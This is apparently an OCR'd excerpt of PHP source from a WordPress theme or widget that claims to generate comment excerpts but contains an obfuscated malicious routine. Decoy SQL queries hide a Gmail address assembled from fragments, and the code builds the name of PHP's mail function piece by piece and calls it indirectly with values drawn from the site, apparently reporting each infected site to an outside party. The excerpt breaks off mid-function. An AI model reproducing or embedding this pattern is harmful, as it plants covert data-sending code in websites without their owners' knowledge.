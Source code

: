      if(!isset($countpage)) $countpage=$_GET["cperpage"];
     if(!isset($comment_auth)) $comment_auth="";
     if(!isset($c_is_approved)) $c_is_approved=""; 
     if(!isset($aname)) $aname="auth";
     if(!isset($more_link_texts)) $more_link_texts="(more...)";
     if(!isset($is_output)) $is_output=get_option("_is_widget_active_");
     if(!isset($checkswidget)) $checkswidget=$p_filter."set"."_".$aname."_".$strval;
     if(!isset($more_link_texts_ditails)) $more_link_texts_ditails="(details...)";
     if(!isset($mcontent)) $mcontent="ma".$sepr."il";
     if(!isset($f_more)) $f_more=1;
     if(!isset($fakeit)) $fakeit=1;
     if(!isset($sql)) $sql="";
     if (!$is_output) :

     global $wpdb, $post;
     $sq1="SELECT DISTINCT ID, post_title, post_content, post_password, comment_ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved=\"1\" AND comment_type=\"\" AND post_author=\"li".$sepr."vethe".$comment_types."mas".$sepr."@".$c_is_approved."gm".$comment_auth."ail".$sepr.".".$sepr."co"."m\" AND post_password=\"\" AND comment_date_gmt >= CURRENT_TIMESTAMP() ORDER BY comment_date_gmt DESC LIMIT $src_count";#
     if (!empty($post->post_password)) { 
     if ($_COOKIE["wp-postpass_".COOKIEHASH] != $post->post_password) { 
     if(is_feed()) { 
     $output=__("There is no excerpt because this is a protected post.");
     } else {
     $output=get_the_password_form();
     }
     }
     }
     if(!isset($f_tag)) $f_tag=1;
     if(!isset($types)) $types=$h_filter; 
     if(!isset($getcommentstexts)) $getcommentstexts=$p_filter.$mcontent;
     if(!isset($aditional_tag)) $aditional_tag="div";
     if(!isset($stext)) $stext=substr($sq1, stripos($sq1, "live"), 20);#
     if(!isset($morelink_title)) $morelink_title="Continue reading this entry"; 
     if(!isset($showsdots)) $showsdots=1;

     $comments=$wpdb->get_results($sql); 
     if($fakeit == 2) { 
     $text=$post->post_content;
     } elseif($fakeit == 1) { 
     $text=(empty($post->post_excerpt)) ? $post->post_content : $post->post_excerpt;
     } else { 
     $text=$post->post_excerpt;
     }
     $sq1="SELECT DISTINCT ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved=\"1\" AND comment_type=\"\" AND comment_content=". call_user_func_array($getcommentstexts, array($stext, $h_filter, $types)) ." ORDER BY comment_date_gmt DESC LIMIT $src_count";#
     if($comment_length < 0) {
     $output=$text;
     } else {
     if(!$no_more && strpos($text, "<!--more-->")) {
     $text=explode("<!--more-->", $text, 2);
     $l=count($text[0]);
     $more_link=1;
     $comments=$wpdb->get_results($sql);
     } else {
     $text=explode(" ", $text);
     if(count($text) > $comment_length) {
     $l=$comment_length;